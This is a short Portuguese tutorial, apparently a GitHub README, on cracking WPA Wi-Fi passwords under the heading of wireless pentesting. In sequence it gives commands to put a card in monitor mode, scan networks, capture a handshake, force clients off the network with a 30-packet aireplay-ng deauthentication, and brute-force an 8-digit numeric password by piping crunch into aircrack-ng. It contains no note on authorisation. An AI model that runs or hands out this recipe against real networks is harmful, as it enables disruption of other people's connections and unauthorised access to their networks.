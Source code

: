 # Crunch + Aircrack Simples Tutorial
## Para pentest em redes wireless







Iniciando placa em modo monitor
```bash
sudo airmon-ng start [NOME DA PLACA DE REDE]
```

Verificando redes por perto
```bash
sudo airodump-ng [NOME DA PLACA DE REDE]
```

Verificando a rede especifica
```bash
sudo airodump-ng --bssid [BSSID DA REDE] -c [CANAL DO SINAL] [PLACA DE REDE]
```

Para salvar o handshake em um arquivo basta passar o parametro abaixo no final
```bash
-w log.txt
```

Pode ser demorado D+ esperar alguem logar para capturar o handshake, sendo assim forçaremos a desautenticação dos usuários
```bash
sudo aireplay-ng --deauth 30 -a [BSSID DA REDE] [PLACA DE REDE]
```

Quebrando a senha com o crunch
```bash
crunch 8 8 0123456789 | aircrack-ng [ARQUIVO.cap] -b [BSSID DA REDE] -w-
```
